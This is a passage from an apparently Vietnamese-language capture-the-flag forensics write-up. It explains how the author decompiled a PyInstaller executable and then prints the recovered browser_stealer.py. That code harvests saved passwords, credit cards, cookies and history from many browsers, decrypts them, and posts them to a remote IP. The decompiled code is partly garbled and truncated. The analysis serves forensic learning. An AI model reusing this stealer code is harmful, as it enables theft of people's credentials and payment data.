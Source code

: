 `_Mastering_forensics_`

Giờ ta sẽ tiếp tục phân tích 2 file còn lại, `encrypted.bin` thì như tên có lẽ đã bị mã hoá bởi `sctask.exe`, kiểm tra trong DiE thì biết rằng `sctask.exe` được viết bằng python nên ta sẽ sử dụng `pyinstxtractor.py` để chuyển về file .pyc sau đó dùng `pylingual` để decompile về code python lúc đầu

Đây là code đã decompile của `browser_stealer.py`

```py
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: browser_stealer.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import base64
import json
import os
import shutil
import sqlite3
from datetime import datetime, timedelta
from Crypto.Cipher import AES
from win32crypt import CryptUnprotectData
appdata = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
browsers = {'avast': appdata + '\\AVAST Software\\Browser\\User Data', 'amigo': appdata + '\\Amigo\\User Data', 'torch': appdata + '\\Torch\\User Data', 'kometa': appdata + '\\Kometa\\User Data', 'orbitum': appdata + '\\Orbitum\\User Data', 'cent-browser': appdata + '\\CentBrowser\\User Data', '7star': appdata + '\\7Star\\7Star\\User Data', 'sputnik': appdata + '\\Sputnik\\Sputnik\\User Data', 'vivaldi': appdata + '\\Vivaldi\\User Data', 'chromium': appdata + '\\Chromium\\User Data', 'chrome-canary': appdata + '\\Google\\Chrome SxS\\User Data', 'chrome': appdata + '\\Google\\Chrome\\User Data', 'epic-privacy-browser': appdata + '\\Epic Privacy Browser\\User Data', 'msedge-dev': appdata + '\\Microsoft\\Edge Dev\\User Data', '\\uCozMedia\\Uran\\User Data': appdata + '\\Yandex\\YandexBrowser\\User Data', '\\BraveSoftware\\Brave-Browser\\User Data': appdata + '\\Iridium\\User Data', '\\CocCoc\\Browser\\User Data': roaming + '\\Opera Software\\Opera Stable', '\\Opera Software\\Opera GX Stable': roaming + '\\Opera Software\\Opera GX Stable'}
data_queries = {'login_data': {'query': 'SELECT action_url, username_value, password_value FROM logins', 'file': '\\Login Data', 'columns': ['URL', 'Email', 'Password'], 'decrypt': True}, 'credit_cards': {'query': 'SELECT name_on_card, expiration_month, expiration_year, card_number_encrypted, date_modified FROM credit_cards', 'file': '\\Web Data', 'columns': ['Name On Card', 'Card Number', 'Expires On', 'Added On'], 'decrypt': True}, 'cookies': {'query': 'SELECT host_key, name, path, encrypted_value, expires_utc FROM cookies', 'file': '\\Network\\Cookies', 'columns': ['Host Key', 'Cookie Name', 'Path', 'Cookie', 'Expires On'], 'decrypt': True}, 'history': {'query': 'SELECT url, title, last_visit_time FROM urls', 'file': '\\History', 'columns': ['URL', 'Title', 'Visited Time'], 'decrypt': False}, 'downloads': {'query': 'SELECT tab_url, target_path FROM downloads'

def get_master_key(path: str):
    if not os.path.exists(path):
        pass  # postinserted
    return None

def decrypt_password(buff: bytes, key: bytes) -> str:
    iv = buff[3:15]
    payload = buff[15:(-16)]
    cipher = AES.new(key, AES.MODE_GCM, iv)
    decrypted_pass = cipher.decrypt(payload)
    decrypted_pass = decrypted_pass.decode()
    return decrypted_pass

def save_results(browser_name, type_of_data, content):
    if content:
        url = 'http://10.10.70.114:443'
        data = {'browser': browser_name, 'type': type_of_data, 'content': content}
        try:
            response = requests.post(url, json=data)
            if response.status_code == 200:
```